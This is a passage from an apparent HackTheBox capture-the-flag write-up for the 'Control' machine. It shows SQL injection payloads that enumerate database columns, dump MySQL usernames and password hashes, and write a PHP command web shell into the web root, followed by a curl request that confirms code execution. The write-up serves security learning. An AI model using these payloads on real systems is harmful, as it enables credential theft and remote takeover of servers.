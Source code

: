 `productName=Asus USB-AC53 Nano' UNION SELECT group_concat(column_name),2,3,4,5,6 from information_schema.columns where table_name='user';-- -`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-27.png)

#### User, Password

I can read specific column fom the table as such:

`productName=Asus USB-AC53 Nano' UNION SELECT user,password,3,4,5,6 from mysql.user;-- -`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-28.png)


### SQLi Shell

Using [this article](https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/), I will be able to spawn a shell using SQL injection. 

I will first upload PHP cmd shell to `C:/inetpub/wwwroot/` as **cmd.php**:

`productName=Asus USB-AC53 Nano' UNION SELECT '<?php system($_GET["cmd"]); ?>',2,3,4,5,6 into outfile 'c:/inetpub/wwwroot/cmd.php';-- -`

I can confirm RCE working using curl as such:

`curl -s 'http://10.10.10.167/cmd.php?cmd=whoami'`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-30.png)
